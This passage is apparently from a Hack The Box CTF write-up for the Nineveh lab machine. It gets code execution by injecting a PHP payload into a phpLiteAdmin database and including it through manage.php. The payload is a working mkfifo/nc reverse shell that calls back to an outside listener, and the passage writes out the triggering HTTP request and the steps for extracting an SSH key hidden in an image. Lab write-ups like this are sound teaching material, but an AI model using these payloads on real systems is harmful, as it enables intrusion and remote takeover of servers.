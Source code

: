 There is one difference, however. According to CVE:
>The script will store the sqlite database in the same directory as phpliteadmin.php.

Not the case here. The default path to the db is ``/var/tmp``. Moving the file to a publicly accessible location does not work, since www-data is not privileged to write files to those directories. And that is why the previous step comes in handy.

### Malicious DB

 - Create a database named ninevehNotes.php
 - Make a table with one text column and the default value of your payload.

```sql
CREATE TABLE '1337' ('1' TEXT default '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.93 1337 >/tmp/f"); ?>')
```

- Set up nc listener (``nc -lnvp 1337``)
- Make a request to your DB

```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php10.10 HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://10.10.10.43/department/login.php
Cookie: PHPSESSID=gbva847ji81osirul39t7vouj2
```

## First shell

Now, remember the "secret folder" mentioned in the note? We have an access to the server, so we might as well find it.

It turns out to be located on ssl site under ``secure_notes`` and contains only one picture.
```
wget https://10.10.10.43/secure_notes/nineveh.png --no-check-certificate
--2017-12-07 09:41:08--  https://10.10.10.43/secure_notes/nineveh.png
HTTP request sent, awaiting response... 200 OK
Length: 2891984 (2.8M) [image/png]
Saving to: ‘nineveh.png’

nineveh.png                         	100%[=============================================================================>]   2.76M  1.30MB/s	in 2.1s    
```
The end of file is interesting. Obtained [SSH private key](https://github.com/leolashkevych/CTF/blob/master/Hackthebox.eu/Machines/Nineveh%20-%2010.10.10.43/key.ssh) for amrois.
```
hexdump -C nineveh.png
...
002c05d0  00 75 73 74 61 72 20 20  00 77 77 77 2d 64 61 74  |.ustar  .www-dat|
002c05e0  61 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |a...............|
002c05f0  00 00 00 00 00 00 00 00  00 77 77 77 2d 64 61 74  |.........www-dat|
002c0600  61 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |a...............|
002c0610  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
002c06d0  73 73 68 2d 72 73 61 20  41 41 41 41 42 33 4e 7a  |ssh-rsa AAAAB3Nz|
002c06e0  61 43 31 79 63 32 45 41  41 41 41 44 41 51 41 42  |aC1yc2EAAAADAQAB|
002c06f0  41 41 41 42 41 51 43 75  4c 30 52 51 50 74 76 43  |AAABAQCuL0RQPtvC|
002c0700  70 75 59 53 77 53 6b 68  35 4f 76 59 6f 59 2f 2f  |puYSwSkh5OvYoY//|
002c0710  43 54 78 67 42 48 52 6e  69 61 61 38 63 30 6e 64  |CTxgBHRniaa8c0nd|
002c0720  52 2b 77 43 47 6b 67 66  33 38 48 50 56 70 73 56  |R+wCGkgf38HPVpsV|
002c0730  75 75 33 58 71 38 66 72  2b 4e 33 79 62 53 36 75  |uu3Xq8fr+N3ybS6u|
002c0740  44 38 53 62 74 33 38 55  6d 64 79 6b 2b 49 67 66  |D8Sbt38Umdyk+Igf|
002c0750  7a 55 6c 73 6e 53 6e 4a  4d 47 38 67 41 59 30 72  |zUlsnSnJMG8gAY0r|
002c0760  73 2b 46 70 42 64 51 39  31 50 33 4c 54 45 51 51  |s+FpBdQ91P3LTEQQ|
```